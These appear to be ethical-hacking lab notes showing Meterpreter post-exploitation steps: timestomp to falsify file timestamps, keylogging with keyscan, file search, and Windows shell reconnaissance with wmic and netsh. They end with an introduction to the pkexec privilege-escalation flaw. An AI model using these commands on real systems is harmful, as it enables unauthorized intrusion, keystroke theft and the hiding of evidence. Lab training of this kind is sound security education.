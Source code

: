 	meterpreter > sessions -i 1
	meterpreter > sysinfo		# also: ipconfig, getuid, pwd, ls, cat [filename.txt], idletime 
	meterpreter > ipconfig
	meterpreter > getuid


While performing post-exploitation activities, an attacker tries to access files to read their contents. Upon doing so, the MACE (modified, accessed, created, entry) attributes immediately change, which indicates to the file user or owner that someone has read or modified the information.

Change the MACE attributes of the Secret.txt file:

	meterpreter > timestomp Secret.txt -v 
	meterpreter > timestomp Secret.txt -m “02/11/2018 08:10:03”	# changes the Modified value
Note: you can change the Accessed (-a), Created (-c), and Entry Modified (-e)


Search for a file:

	meterpreter > cd C:/
	meterpreter > pwd
	meterpreter > search -f [Filename.extension]
	
Start a key_logger:

	meterpreter > keyscan_start		# wait for victim use its keyboard
	meterpreter > keyscan_dump


	meterpreter > shell		# open a shell in meterpreter
	dir /a:h				# retrieve the directory names with hidden attributes
	sc queryex type=service state=all	# list all the available services
	netsh firewall show state	# display current firewall state
	netsh firewall show config	# view the current firewall settings
	wmic /node:"" product get name,version,vendor	# details of installed software
	wmic cpu get	# processor’s details
	wmic useraccount get name,sid 	# retrieve login names and SIDs of the users
	wmic os where Primary='TRUE' reboot	# reboot the target system
	
	


### Escalate Privileges by Exploiting Vulnerability in pkexec

Polkit or Policykit is an authorization API used by programs to elevate permissions and run processes as an elevated user. The successful exploitation of the Polkit pkexec vulnerability allows any unprivileged user to gain root privileges on the vulnerable host.

In the pkexec.c code, there are parameters that doesn’t handle the calling correctly which ends up in trying to execute environment variables as commands. Attackers can exploit this vulnerability by designing an environment variable in such a manner that it will enable pkexec to execute an arbitrary code.

Note: This vulnerability has already been patched in newer versions of Unix-based operating systems. Here, we are exploiting the vulnerability for the sake of demonstrating how the attackers can search for the latest vulnerabilities in the target operating system using online resources such as Exploit-Db and further exploit them to gain unauthorized access or escalated privileges to the target system.
